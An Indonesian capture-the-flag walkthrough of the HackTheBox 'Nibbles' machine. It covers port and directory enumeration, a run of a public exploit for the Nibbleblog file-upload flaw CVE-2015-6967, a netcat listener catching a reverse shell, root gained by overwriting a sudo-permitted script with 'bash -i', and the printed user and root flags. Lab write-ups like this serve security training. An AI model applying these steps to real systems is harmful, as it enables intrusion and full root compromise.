

## Reconnaissance

Hal pertama yang harus kita lakukan adalah melakukan enumration terhadap running service pada box dengan menggunakan tools nmap

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/nibbles]
└─$ sudo nmap -sVC -Pn -p- 10.129.33.45 --min-rate=1000 -T4 -oA nmap_results
[sudo] password for chjwoo: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-16 22:11 WIB
Nmap scan report for 10.129.33.45
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.41 seconds
```

### Analyzing scan result

- Port 22, service yang berjalan adalah ssh dengan versi OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
- Port 80, service yang berjalan adalah web server apache dengan versi Apache httpd 2.4.18 ((Ubuntu))

### Adding host to /etc/hosts

Menambahkan host domain pada file /etc/hosts untuk mempermudah kita dalam melakukan exploitasi kedepannya.

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/nibbles]
└─$ cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       hackbox

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.129.33.45 nibble.htb
```

### Accessing the apache web server



Pada website hanya menampilkan hello world, pada saat saya melihat source code pada website tersebut, terdapat sebuah comment.


Jika ditelusuri lebih lanjut, terdapat sebuah website blog menggunakan Nibbleblog. Kita bisa lanjut untuk melakukan enumeration directory dengan menggunakan tools gobuster untuk mencari web content yang hidden.

### Directory Enumeration using gobuster

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/nibbles]
└─$ gobuster dir -u http://nibble.htb/nibbleblog -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nibble.htb/nibbleblog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 321] [--> http://nibble.htb/nibbleblog/content/]
/themes               (Status: 301) [Size: 320] [--> http://nibble.htb/nibbleblog/themes/]
/admin                (Status: 301) [Size: 319] [--> http://nibble.htb/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 321] [--> http://nibble.htb/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 323] [--> http://nibble.htb/nibbleblog/languages/]
Progress: 87662 / 87662 (100.00%)
===============================================================
Finished
===============================================================

```

Disini terdapat beberapa end point yang bisa kita explore.


Pada endpoint /README kita bisa terdapat sensitive information dimana Nibbleblog ini menggunakan version v4.0.3 dan bahasa pemrograman yang digunakan yaitu PHP v5.2. Mungkin kita bisa mencari vulnerability pada version tersebut.


Pada folder /admin, /content, /theme, /plugins, dan /languages terdapat vulnerability directory listing. 

## Foothold

Pada version nibbleblog tersebut terdapat CVE-2015-6967 ([https://github.com/dix0nym/CVE-2015-6967/tree/main](https://github.com/dix0nym/CVE-2015-6967/tree/main)) dimana attacker dapat melakukan arbitrary file upload. Tapi disini kita memerlukan valid credetials untuk melakukan file upload tersebut.


Karena saya stuck dalam mencari password credsnya, jadi saya nyontek wu orang, jadi creds yang digunakan yaitu admin:nibbles


Kita berhasil masuk lalu, kita langsung saja menjalankan exploit nya, dan jangan lupa untuk menyiapkan reverse shell nya.

```bash
┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/nibbles/CVE-2015-6967]
└─$ python exploit.py --url http://nibble.htb/nibbleblog/ --username admin --password nibbles --payload ../shell.php
[+] Login Successful.
[+] Upload likely successfull.

┌──(chjwoo㉿hackbox)-[~/hackthebox/machines/nibbles]
└─$ nc -lnvp 7777
listening on [any] 7777 ...
connect to [10.10.14.108] from (UNKNOWN) [10.129.33.45] 59004
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:02:54 up 52 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
bash: cannot set terminal process group (1367): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/$ 

```

Dan yak kita sudah mendapatkan shell tersebut. 

```bash
nibbler@Nibbles:/home$ cd nibbler/
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
935e0122af3f5394ae43549d682d7df3
nibbler@Nibbles:/home/nibbler$ 

```

Terdapat file personal.zip, mungkin kita bisa coba extract

```bash
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ 

```

Script tersebut hanyalah script untuk monitoring server nya.

## Privilege Escalation

Namun untuk melakukan privilege escalation kita bisa menjalankan sudo -l untuk mengecek binary apa saja yang bisa dijalankan oleh si user nibbles.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l 
Matching Defaults entries for nibbler on Nibbles:                                            
    env_reset, mail_badpass,                                                                 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 
                                                                                             
User nibbler may run the following commands on Nibbles:                                      
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh                                 
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls                                             
monitor.sh                                                                                   
nibbler@Nibbles:/home/nibbler/personal/stuff$ rm monitor.sh                                  
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls                                             
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "bash -i"  > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
root@Nibbles:/home/nibbler/personal/stuff# 
root@Nibbles:/home/nibbler/personal/stuff# cd /root 
root@Nibbles:~# cat root.txt
4ae440c4da7582741dc80f65bc8597c3

```

It turns out kita bisa menjalankan script /home/nibbler/personal/stuff/[monitor.sh](http://monitor.sh)  dengan privilege root. maka dari itu pada file monitor.sh kita tinggal replace saja isi kontennya dengan bash -i lalu dijalankan menggunakan sudo dengan absolute path. Dan selesai kita sudah menamatkan box ini.

## Flags

```bash
User's Flag: 935e0122af3f5394ae43549d682d7df3
Root's Flag: 4ae440c4da7582741dc80f65bc8597c3
```